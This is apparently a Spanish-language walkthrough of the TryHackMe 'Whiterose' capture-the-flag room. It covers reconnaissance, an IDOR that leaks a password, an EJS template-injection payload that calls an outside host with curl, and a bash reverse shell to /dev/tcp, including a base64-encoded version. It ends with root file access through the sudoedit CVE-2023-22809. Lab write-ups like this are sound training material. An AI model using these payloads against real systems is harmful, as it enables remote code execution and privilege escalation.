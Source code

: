*****

![[Pasted image 20250203213856.png]] 

#easy

******

Al unirnos al room de THM nos dan un username y password que será importantes tenerlos en cuenta:

~~~bash
username: Olivia Cortez
password: olivi8
~~~


Realizamos un escaneo con **Nmap** para poder observar los servicios que usan:

~~~bash
sudo nmap -sS --min-rate 5000 --open -vv -p- -n -Pn whiterose.thm
~~~

![[Pasted image 20250203214511.png]]

Como podemos ver, tienen el `22` y `80` abiertos. Al ingresar a la pagina web esta nos redirige a otra:

`cyprusbank.thm`

![[Pasted image 20250203214630.png]]

Pasamos a realizar un fuzzing de directorios con gobuster, pero no nos muestra nada interesante.

~~~bash
gobuster dir -u 'http://cyprusbank.thm/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
~~~

Con ffuf realizamos fuzzing de subdominios y vemos que nos dan 2 subdominios:

`www.cyprusbank.thm` `admin.cyprusbank.thm`

~~~bash
ffuf -u 'http://cyprusbank.thm/' -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fw 1
~~~

![[Pasted image 20250203215214.png]]

>[!note]
>`-fw` nos ayuda a descartar falsos positivos en el fuzzing


`www.cyprusbank.thm` no hay nada, sin embargo en `admin.cyprusbank.thm` nos muestra un login donde podemos intentar poner las credenciales del inicio.


![[Pasted image 20250203215438.png]]

Al ingresar con la cuenta de Olivia podemos ver varias cosas interesantes y donde podemos encontrar una de las primeras flag del room.

![[Pasted image 20250203220037.png]]

No podemos ingresar a settings, al parecer no tenemos privilegios.

![[Pasted image 20250203220137.png]]

Pero en mensajes podemos ver algo que me resulto interesante:

![[Pasted image 20250203220242.png]]

En la url podemos ver `c=5` y al cambiar los valores encontramos un IDOR que nos deja observar otros mensajes:

![[Pasted image 20250203220405.png]]

Al explorarlo mas al fondo, damos con una conversación donde el user `Gayle Bev` escribe su password `p~]P@5!6;rs558:q`, y al ingresar con su sesión podemos obtener la primera flag.

*****

Una vez iniciado la sesión de `Gayle Bev` podemos ingresar al apartado de de settings de la web page. En esta podemos actualizar passwords de usuarios:

![[Pasted image 20250203221334.png]]

Al revisar la solicitud con Burpsuite podemos modificar varios puntos para checar la posibilidad de XSS o SSTI. Interceptamos la request y omitimos el passwords y podemos ver que nos contesta con el siguiente error:

![[Pasted image 20250203221618.png]]

En este mensaje podemos observar que están usando `.ejs` (Embedded JavaScript templates), lo que indica que el servidor renderiza plantillas dinámicas. Dado que `.ejs` es vulnerable a **Server-Side Template Injection (SSTI)** si no se maneja correctamente la entrada del usuario, podemos buscar payloads específicos para explotar este tipo de vulnerabilidad en `ejs` y evaluar si es posible ejecutar código en el servidor.

~~~javascript
%%1");process.mainModule.require('child_process').execSync('calc');//
~~~

https://github.com/mde/ejs/issues/720

Modificamos el payload para realizar un curl a nuestro Python server.

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.8.27.189:6666');//
~~~

![[Pasted image 20250203222756.png]]

![[Pasted image 20250203222807.png]]

Con esto confirmamos que es un **SSTI**, ahora podemos intentar para explotar una RCE, para esto podemos crear un reverse Shell (https://www.revshells.com/):

![[Pasted image 20250203223016.png]]

Modificamos nuestro payload para que ejecute la reverse:

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -i >& /dev/tcp/10.8.27.189/6666 0>&1');//
~~~

Pero al parecer nos esta filtrando la request, entonces aquí podemos encodearlo en base64 para intentar pasarlo.

~~~js
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjguMjcuMTg5LzY2NjYgMDA+JjE= | base64 -d | bash"');//  
~~~

![[Pasted image 20250203224626.png]]

Listo, tenemos acceso a la maquina donde podemos encontrar la siguiente flag, pero antes podemos mandar a llamar una Shell interactiva con python:

~~~python
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

![[Pasted image 20250203224739.png]]

******
Ahora para escalar privilegios podemos observar primero que podemos hacer con sudo:

~~~bash
sudo -l
~~~

Y aqui podemos ver algo que podemos explotar:

![[Pasted image 20250203224920.png]]

Podemos checar la versión que usa `sudoedit` con `sudoedit -V` y podemos ver que usa la versión `1.9.12p1`

![[Pasted image 20250203225015.png]]

Al investigar encontramos que existe un CVE para esta versión de `sudoedit`

~~~bash
CVE-2023-22809
~~~

Ahora con lo que encontramos acerca de esta CVE podemos cambiar la variable para que nos muestre la flag de root:

~~~bash
export EDITOR="vi -- /root/root.txt"
~~~

Ya solo queda ejecutar el comando que vimos al principio y aquí tendremos nuestra siguiente y ultima flag:

~~~bash
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
~~~


